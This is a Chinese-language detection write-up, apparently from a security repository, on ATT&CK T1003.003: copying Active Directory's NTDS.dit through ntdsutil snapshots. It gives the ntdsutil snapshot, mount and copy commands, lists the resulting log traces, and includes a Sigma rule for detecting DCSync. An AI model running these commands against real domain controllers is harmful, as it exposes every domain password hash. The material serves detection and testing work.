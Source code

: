 # T1003-003-win-使用ntdsutil获得NTDS.dit文件

## 来自ATT&CK的描述

攻击者可能试图访问或创建Active Directory域数据库的副本，以便窃取凭据信息，以及获取有关域成员（例如设备，用户和访问权限）的其他信息。默认情况下，NTDS文件（NTDS.dit）位于%SystemRoot%\NTDS\Ntds.dit域控制器中。

除了在活动的域控制器上查找NTDS文件之外，攻击者还可能搜索包含相同或相似信息的备份。

下列工具和技术可用于枚举NTDS文件和整个Active Directory哈希的内容。
- 卷影复制
- secretsdump.py
- 使用内置的Windows工具ntdsutil.exe
- 调用卷影副本

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2008+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```bash
ntdsutil snapshot  "activate  instance ntds"  create  quit quit
```

### Ntdsutil挂载域快照

```bash
ntdsutil snapshot  "mount {GUID}" quit  quit
```

### 复制快照

```bash
copy C:\$SNAP_201212082315_VOLUMEC$\windows\NTDS\ntds.dit  c:\ntds.dit #注意路径大小写问题
```

### 卸载快照

```bash
ntdsutil snapshot  "unmount {GUID}" quit  quit
```

### 删除快照

```bash
ntdsutil snapshot  "delete {GUID}" quit  quit

ntsutil.exe +PWPR(Passcape Windows Password Recovery)
```

## 检测日志

windows 安全日志

## 测试复现

![ntds1](https://s2.ax1x.com/2019/12/26/lAeIM9.png)

![ntds2](https://s2.ax1x.com/2019/12/26/lAeOPO.png)

## 测试留痕

windows 安全日志、4688进程创建、Ntsutil.exe进程名称。

![event_log](https://s2.ax1x.com/2019/12/26/lAuVDs.png)

## 检测规则/思路

```yml
title: Dumping ntds.dit remotely via DCSync
id: 51238c62-2b29-4539-ad75-e94575368a12
description: ntds.dit retrieving using synchronisation with legitimate domain controller using Directory Replication Service Remote Protocol
author: Teymur Kheirkhabarov, oscd.community
date: 2019/10/24
modified: 2019/11/13
references:
    - https://twitter.com/gentilkiwi/status/1003236624925413376
    - https://gist.github.com/gentilkiwi/dcc132457408cf11ad2061340dcb53c2
    - https://www.slideshare.net/heirhabarov/hunting-for-credentials-dumping-in-windows-environment
tags:
    - attack.credential_access
    - attack.t1003
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624
        ComputerName: '%DomainControllersNamesList%'
    selection2:
        IpAddress: '%DomainControllersIpsList%'
    selection3:
        EventID: 4662
        ComputerName: '%DomainControllersNamesList%'
        SubjectLogonId: '%SuspiciousTargetLogonIdList%'
        Properties|contains: 
            - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
            - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
    condition: write TargetLogonId from selection1 (if not selection2) to list %SuspiciousTargetLogonIdList%; then if selection3 -> alert
falsepositives:
    - Legitimate administrator adding new domain controller to already existing domain
level: medium
status: experimental
```

### 建议

检测规则未经过实际验证，谨慎使用。

## 参考推荐

MITRE-ATT&CK-T1003-003

<https://attack.mitre.org/techniques/T1003/003>

域渗透——获得域控服务器的NTDS.dit文件

<https://xz.aliyun.com/t/2187>

NTDS.dit密码快速提取工具

<https://www.secpulse.com/archives/6301.html>

域hash值破解的总结经验

<https://www.cnblogs.com/backlion/p/6785639.html?utm_source=itdadao&utm_medium=referral>
